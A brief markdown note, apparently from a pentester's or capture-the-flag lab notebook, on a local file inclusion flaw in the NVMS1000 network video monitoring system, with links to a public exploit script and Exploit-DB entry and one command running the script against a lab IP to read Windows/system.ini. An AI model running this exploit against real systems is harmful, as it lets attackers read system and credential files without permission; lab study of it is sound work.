 # network video monitoring system

## LFI v1000

```
https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py
python3 nvms.py 10.10.10.184 Windows/system.ini win.ini

https://www.exploit-db.com/exploits/48311
```

